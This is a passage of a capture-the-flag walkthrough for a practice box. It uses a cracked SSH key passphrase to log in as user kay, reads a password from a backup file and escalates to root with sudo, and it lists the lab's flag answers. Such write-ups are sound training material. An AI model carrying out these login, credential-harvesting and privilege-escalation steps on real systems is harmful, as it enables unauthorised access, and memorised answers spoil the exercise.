 And we got it, the passphrase was `beeswax`. Tried to login with the passphrase.

```
riz@kali:~$ chmod 600 id_rsa

riz@kali:~$ ssh -i id_rsa kay@10.10.215.114
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$
```

Yeaa, we got a kay shell.

---

### • What is the name of the other user you found(all lower case)?

> kay

```
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cd ..
jan@basic2:/home$ ls
jan  kay
```

---

### • If you have found another user, what can you do with this information?

> _No answer needed_

---

### • What is the final password you obtain?

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$

```
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

We can also used the password to switch to super user, and we got a root access.

```
kay@basic2:~$ sudo su
[sudo] password for kay:
root@basic2:/home/kay# id
uid=0(root) gid=0(root) groups=0(root)
```
